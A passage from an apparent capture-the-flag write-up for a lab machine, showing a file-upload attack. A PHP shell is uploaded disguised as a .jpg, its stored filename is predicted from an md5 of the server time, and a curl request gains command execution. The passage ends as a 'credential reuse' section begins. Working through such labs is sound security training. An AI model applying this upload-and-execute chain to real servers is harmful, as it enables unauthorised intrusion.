 Uploading a simple php reverse shell with the jpg extension we can see the server time, which we need, in repeater.

[![055_shell_uploaded](/img/timing/055_shell_uploaded.png)](/img/timing/055_shell_uploaded.png)

Next we just have to take the md5sum of `$file_hash` + the server time in epoch format, add `_` and the filename to that.

```
$ date --date='12/11/2021 23:30:01' +"%s"
1639265401
```

```
$ php -a
Interactive mode enabled

php > echo(md5('$file_hash1639265401') . '_shell.php.jpg');
14825a2e927efad4b527cfdfdc212129_shell.php.jpg
```

Using curl we see the file exists and we have remote code execution on the target.

```
$ curl 'http://10.129.189.14/image.php?img=images/uploads/14825a2e927efad4b527cfdfdc212129_shell.php.jpg&1=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Credential reuse

There seems to be a firewall on the target which was blocking outbound connection as www-data, however after looking around we quickly find an interesting backup in `/opt/`.
